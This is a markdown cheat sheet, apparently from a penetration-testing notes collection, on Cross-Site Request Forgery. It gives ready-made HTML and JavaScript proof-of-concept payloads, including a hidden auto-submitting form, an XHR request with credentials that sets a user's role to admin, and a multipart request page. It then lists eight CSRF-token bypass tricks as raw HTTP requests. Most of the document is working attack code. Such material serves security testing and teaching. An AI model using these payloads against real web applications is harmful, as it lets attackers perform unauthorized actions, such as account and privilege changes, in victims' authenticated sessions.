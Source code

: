 # Cross Site Request Forgery (CSRF)

## Introduction
Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated

## Where to find
Usually found in forms. Try submit the form and check the HTTP request. If the HTTP request does not have a CSRF token then it is likely to be vulnerable to a CSRF attack.

## How to exploit
1. HTML GET Method

```html
<a href="http://www.example.com/api/setusername?username=uname">Click Me</a>
```

2. HTML POST Method

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="uname" />
 <input type="submit" value="Submit Request" />
</form>
```

3. JSON GET Method
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

4. JSON POST Method
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

5. Multipart request
```html
<head>
    <title>Multipart CSRF PoC</title>
</head>
<body>
<br>
<hr>
<h2>Click Submit request</h2><br>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://example/api/users", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------149631704917378");
        xhr.withCredentials = true;
        var body = "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"action\"\r\n" + 
          "\r\n" + 
          "update\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"user_id\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"uname\"\r\n" + 
          "\r\n" + 
          "daffainfo\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"first_name\"\r\n" + 
          "\r\n" + 
          "m\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"last_name\"\r\n" + 
          "\r\n" + 
          "daffa\r\n" + 
          "-----------------------------149631704917378--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
	<form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
<br>
</body>
```

# Bypass CSRF Token
But in some cases, even though there is a CSRF token on the form on the website. CSRF tokens can still be bypassed by doing a few things:

1. Change single character
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaab
```

2. Sending empty value of token
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=
```

3. Replace the token with same length
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=aaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=aaabaa
```
4. Changing POST / GET method
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
GET /register?username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: target.com
...
```

5. Remove the token from request
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456
```

6. Use another user's valid token
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=ANOTHER_VALID_TOKEN
```

7. Try to decrypt hash
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=MTIzNDU2
```
MTIzNDU2 => 123456 with base64

8. Sometimes anti-CSRF token is composed by 2 parts, one of them remains static while the others one dynamic
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=vi802jg9f8akd9j123
```
When we register again, the request like this
```
POST /register HTTP/1.1
Host: target.com
...
username=dapos&password=123456&token=vi802jg9f8akd9j124
```
If you notice "vi802jg9f8akd9j" part of the token remain same, you just need to send with only static part
